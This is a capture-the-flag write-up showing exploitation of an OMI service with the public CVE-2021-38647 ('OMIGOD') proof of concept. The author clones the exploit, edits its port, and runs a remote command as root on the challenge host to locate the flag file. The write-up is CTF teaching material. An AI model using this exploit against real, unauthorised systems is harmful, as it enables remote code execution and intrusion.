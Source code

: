 > http://challenge.ctf.games:31320/

![](/assets/obsidian/068582101333c4bcddda4604fd6272e9.png){:target='_blank'}

Google : `omni server exploit`

> https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi

```bash
git clone https://github.com/horizon3ai/CVE-2021-38647
cd CVE-2021-38647
```

Edit the script to point to the right HTTPS port

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ diff CVE-2021-38647/omigod.py CVE-2021-38647-mod/omigod.py
13d12
<       <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
40c39
<     r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
---
>     r = requests.post(f'https://{target}:30798/wsman', headers=headers, data=DATA.format(command), verify=False)
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023/CVE-2021-38647]
└─$ python omigod.py -t challenge.ctf.games -c 'find / -type f -iname "*flag*" -ls 2>/dev/null'|sed 's/&#10;/\n/g'
  1051612      8 -rwxr-xr-x   1 root     root         7565 May 25  2022 /usr/bin/dpkg-buildflags
  1054060      4 -rw-r--r--   1 root     root         2822 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_oflag.h
  1054059      4 -rw-r--r--   1 root     root         2594 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_lflag.h
  1054057      4 -rw-r--r--   1 root     root         1230 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_cflag.h
  1053975      4 -rw-r--r--   1 root     root         1997 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/mman-map-flags-generic.h
  1054058      4 -rw-r--r--   1 root     root         1936 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_iflag.h
  1054118      4 -rw-r--r--   1 root     root         2218 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/waitflags.h
  1054027      4 -rw-r--r--   1 root     root         1188 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/ss_flags.h
  1053889      8 -rw-r--r--   1 root     root         6623 Oct  2 22:13 /usr/include/x86_64-linux-gnu/asm/processor-flags.h
  1053119      4 -rw-r--r--   1 root     root          900 Oct  2 22:13 /usr/include/linux/kernel-page-flags.h
  1053512      8 -rw-r--r--   1 root     root         4527 Oct  2 22:13 /usr/include/linux/tty_flags.h
  1057738      4 -rw-r--r--   1 root     root         1269 May 23 21:17 /usr/lib/x86_64-linux-gnu/perl/5.30.0/bits/waitflags.ph
  1057705      4 -rw-r--r--   1 root     root          443 May 23 21:17 /usr/lib/x86_64-linux-gnu/perl/5.30.0/bits/ss_flags.ph
  1062490     12 -rw-r--r--   1 root     root        11594 May 25  2022 /usr/share/perl5/Dpkg/BuildFlags.pm
  1059632      4 -rw-r--r--   1 root     root         1590 May 25  2022 /usr/share/dpkg/buildflags.mk
  1068066      4 -rw-r--r--   1 root     root           38 Oct 27 02:22 /opt/omi/flag.txt
    10805      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:05/tty/ttyS2/flags
```